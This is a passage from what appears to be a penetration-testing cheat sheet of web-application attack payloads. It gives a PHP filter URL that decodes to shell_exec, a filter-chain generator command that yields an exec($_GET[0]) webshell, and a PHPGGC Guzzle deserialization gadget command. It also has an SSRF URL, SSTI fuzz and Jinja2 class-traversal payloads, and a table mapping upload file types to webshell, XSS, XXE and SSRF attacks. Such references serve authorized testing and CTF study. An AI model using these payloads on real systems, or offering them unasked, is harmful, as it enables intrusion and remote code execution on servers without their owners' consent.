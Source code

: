 ```c
http://<RHOST>/?page=php://filter/convert.base64-decode/resource=PD9waHAgZWNobyBzaGVsbF9leGVjKGlkKTsgPz4
```

```c
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
[+] The following gadget chain will generate the following code : <?= exec($_GET[0]); ?> (base64 value: PD89IGV4ZWMoJF9HRVRbMF0pOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|<--- SNIP --->|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&0=<COMMAND>
```

#### PHP Generic Gadget Chains (PHPGGC)

```c
phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/<FILE>.txt /PATH/TO/FILE/<FILE>.txt
```

#### Server-Side Request Forgery (SSRF)

```c
https://<RHOST>/item/2?server=server.<RHOST>/file?id=9&x=
```

#### Server-Side Template Injection (SSTI)

##### Fuzz String

> https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti

```c
${{<%[%'"}}%\.
```

##### Magic Payload

> https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

```c
{{ ‘’.__class__.__mro__[1].__subclasses__() }}
```

#### Upload Vulnerabilities

```c
ASP / ASPX / PHP / PHP3 / PHP5: Webshell / Remote Code Execution
SVG: Stored XSS / Server-Side Request Forgery
GIF: Stored XSS
CSV: CSV Injection
XML: XXE
AVI: Local File Inclusion / Server-Side request Forgery
HTML/JS: HTML Injection / XSS / Open Redirect
PNG / JPEG: Pixel Flood Attack
ZIP: Remote Code Exection via Local File Inclusion
PDF / PPTX: Server-Side Request Forgery / Blind XXE
```
